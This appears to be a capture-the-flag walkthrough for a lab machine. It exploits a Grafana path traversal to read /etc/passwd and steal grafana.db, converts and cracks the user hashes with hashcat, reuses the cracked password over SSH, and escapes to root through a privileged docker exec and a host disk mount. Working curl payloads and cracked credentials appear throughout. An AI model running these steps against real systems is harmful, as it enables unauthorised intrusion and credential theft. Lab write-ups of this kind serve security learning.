


## TL;DR

Placeholder

## Enumeration

### Nmap

The nmap scan shows only two ports open. 

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 
3000/tcp open  ppp?    syn-ack ttl 62
```

### Service Enumeration

#### Port 3000

Checking port 3000, we find a Grafana instance running on the box. 


After a bit of research, we find that there is a pre-auth path traversal vulnerability in Grafana that allows arbitrary file read.

```console
$ curl --path-as-is http://data.vl:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
```


Get the grafana database

```
$ curl --path-as-is http://data.vl:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```




I found [this article](https://vulncheck.com/blog/grafana-cve-2021-43798) with some details on cracking grafana hashes.

I converted the script given in the article to (good enough) Python. 

```python
import hashlib
import base64

def calculate_hash(password, salt):
    decoded_hash = bytes.fromhex(password)
    salt_base64 = base64.b64encode(salt.encode('utf-8')).decode('utf-8')
    hash_base64 = base64.b64encode(decoded_hash).decode('utf-8')
    return f'sha256:10000:{salt_base64}:{hash_base64}'

# boris
boris_password = "dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8"
boris_salt = "LCBhdtJWjl"
boris_hash = calculate_hash(boris_password, boris_salt)

# admin
admin_password = "7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8"
admin_salt = "YObSoLj55S"
admin_hash = calculate_hash(admin_password, admin_salt)

print(f"[+] Boris hash: {boris_hash}")
print(f"[+] Admin hash: {admin_hash}")

with open("hashes.txt", "w") as file:
    file.write(boris_hash + "\n")
    file.write(admin_hash + "\n")

```

Once we've got the usable hashes in the `hashes.txt` file, we can move forward with cracking them with Hashcat. 

```
$ hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```

The hash associated with the `boris` user cracked and we can recover the plaintext password. 

```

$ cat cracked.txt
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=:beautiful1
```

As shown below, we can use those credentials for logging into Grafana, but there's not much we can do there, so we can check for password re-use instead. 



Sure enough, the password is reused on the SSH service, so we can use that password to gain access to the machine as `boris`. 

```
$ ssh boris@$ip
The authenticity of host '10.10.93.25 (10.10.93.25)' can't be established.
ED25519 key fingerprint is SHA256:BbRsUm7WEG5iYUbNYC9T2OejHNd7cyJddbpRjRL0bKg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.93.25' (ED25519) to the list of known hosts.
boris@10.10.93.25's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-1060-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jun 30 20:57:16 UTC 2024

  System load:  0.78              Processes:              106
  Usage of /:   19.8% of 7.69GB   Users logged in:        0
  Memory usage: 24%               IP address for eth0:    10.10.93.25
  Swap usage:   0%                IP address for docker0: 172.17.0.1


0 updates can be applied immediately.


Last login: Sun Jan 23 13:11:53 2022 from 10.10.1.254
boris@ip-10-10-10-11:~$
```

Go ahead and grab the user flag and we can move on to escalating privileges. 
## Privilege Escalation

Checking `sudo -l` we find the following:

```
boris@ip-10-10-10-11:~$ sudo -l
Matching Defaults entries for boris on ip-10-10-10-11:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User boris may run the following commands on ip-10-10-10-11:
    (root) NOPASSWD: /snap/bin/docker exec *
```

Checking the docker docs here we find a command we can probably use. 

[Docker Docs | Exec](https://docs.docker.com/reference/cli/docker/container/exec/)


```
boris@ip-10-10-10-11:~$ sudo /snap/bin/docker exec --privileged -u 0 -it grafana /bin/sh
/usr/share/grafana #
```

Now that we have privileged access in the container, we can mount the underlying file system. 

[Docker | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

We can check the disks with `fdisk -l`

```

/opt # fdisk -l
Disk /dev/xvda: 8192 MB, 8589934592 bytes, 16777216 sectors
6367 cylinders, 85 heads, 31 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Device   Boot StartCHS    EndCHS        StartLBA     EndLBA    Sectors  Size Id Type
/dev/xvda1 *  0,32,33     20,84,31          2048   16777182   16775135 8190M 83 Linux

```


```
/opt # mkdir /mnt/th0m12

/opt # mount /dev/xvda1 /mnt/th0m12

/opt # cd /mnt/th0m12/

/mnt/th0m12 # ls -la
total 104
drwxr-xr-x   23 root     root          4096 Jun 30 20:56 .
drwxr-xr-x    1 root     root          4096 Jun 30 21:32 ..
drwxr-xr-x    2 root     root          4096 Nov 29  2021 bin
drwxr-xr-x    3 root     root          4096 Nov 29  2021 boot
drwxr-xr-x    4 root     root          4096 Nov 29  2021 dev
drwxr-xr-x   91 root     root          4096 Jun 30 20:56 etc
drwxr-xr-x    4 root     root          4096 Jan 23  2022 home
lrwxrwxrwx    1 root     root            30 Nov 29  2021 initrd.img -> boot/initrd.img-5.4.0-1060-aws
lrwxrwxrwx    1 root     root            30 Nov 29  2021 initrd.img.old -> boot/initrd.img-5.4.0-1060-aws
drwxr-xr-x   20 root     root          4096 Nov 29  2021 lib
drwxr-xr-x    2 root     root          4096 Nov 29  2021 lib64
drwx------    2 root     root         16384 Nov 29  2021 lost+found
drwxr-xr-x    2 root     root          4096 Nov 29  2021 media
drwxr-xr-x    2 root     root          4096 Nov 29  2021 mnt
drwxr-xr-x    2 root     root          4096 Nov 29  2021 opt
drwxr-xr-x    2 root     root          4096 Apr 24  2018 proc
drwx------    5 root     root          4096 Jan 23  2022 root
drwxr-xr-x    5 root     root          4096 Nov 29  2021 run
drwxr-xr-x    2 root     root          4096 Nov 29  2021 sbin
drwxr-xr-x    7 root     root          4096 Jan 23  2022 snap
drwxr-xr-x    2 root     root          4096 Nov 29  2021 srv
drwxr-xr-x    2 root     root          4096 Apr 24  2018 sys
drwxrwxrwt   11 root     root          4096 Jun 30 21:02 tmp
drwxr-xr-x   11 root     root          4096 Nov 29  2021 usr
drwxr-xr-x   13 root     root          4096 Nov 29  2021 var
lrwxrwxrwx    1 root     root            27 Nov 29  2021 vmlinuz -> boot/vmlinuz-5.4.0-1060-aws
lrwxrwxrwx    1 root     root            27 Nov 29  2021 vmlinuz.old -> boot/vmlinuz-5.4.0-1060-aws
```


```

~ # cd /mnt/th0m12/root
/mnt/th0m12/root # ls -la
total 28
drwx------    5 root     root          4096 Jan 23  2022 .
drwxr-xr-x   23 root     root          4096 Jun 30 20:56 ..
lrwxrwxrwx    1 root     root             9 Jan 23  2022 .bash_history -> /dev/null
drwxr-xr-x    3 root     root          4096 Jan 23  2022 .local
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
drwx------    2 root     root          4096 Jan 23  2022 .ssh
-rw-r--r--    1 root     root            37 Jan 23  2022 root.txt
drwxr-xr-x    4 root     root          4096 Jan 23  2022 snap

```


